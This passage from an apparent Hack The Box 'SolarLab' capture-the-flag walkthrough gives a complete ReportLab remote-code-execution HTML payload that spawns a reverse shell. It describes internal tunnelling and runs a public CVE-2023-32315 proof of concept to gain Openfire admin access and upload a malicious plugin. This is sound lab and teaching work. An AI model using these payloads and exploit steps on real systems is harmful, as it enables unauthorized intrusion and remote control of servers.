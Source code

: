 After catching the request and sending it to the repeater with Burp. We insert our payload and make sure to match the `filename` value with the one for `Content-Type`.

> We get a reverse shell from [revshells](https://www.revshells.com/) using the option `PowerShell #3 (Base64)`.

![ReportLab RCE](/images/HTB-SolarLab/payload-RCE.png)

**Payload used**

```HTML
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('INSERT_REVSHELL_HERE') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

On our listener we get a shell as Blake and the user flag is found in the Desktop directory.

![User flag](/images/HTB-SolarLab/user_flag.png)

### Shell as openfire

There is a `openfire` user on the target.

![User list](/images/HTB-SolarLab/users_list.png)

With `netstat -ano` we check all the services running on the target. In order to access the internal services we use tunneling. 

> I personally prefer [ligolo-ng](https://github.com/nicocha30/ligolo-ng) but you can also use chisel.

![netstat command](/images/HTB-SolarLab/netstat.png)

After trying various ports we find an Openfire Administration Console on port 9090.

![Openfire admin console](/images/HTB-SolarLab/Openfire-console.png)

None of the credentials we have so far are working. I remember this version of Openfire being vulnerable to [CVE-2023-32315](https://vulncheck.com/blog/openfire-cve-2023-32315) with a PoC being available [here](https://github.com/miko550/CVE-2023-32315).

> This exploitation method was used for HTB: Jab, but we already had credentials back then

1. We login with the newly created account

```
python3 CVE-2023-32315.py -t http://240.0.0.1:9090
```

![Openfire new account](/images/HTB-SolarLab/openfire-new-account.png)

Once logged in we need to upload a malicious plugin in the `Plugin` section. The malicious plugin is the `openfire-management-tool-plugin.jar` file available in the PoC repository.
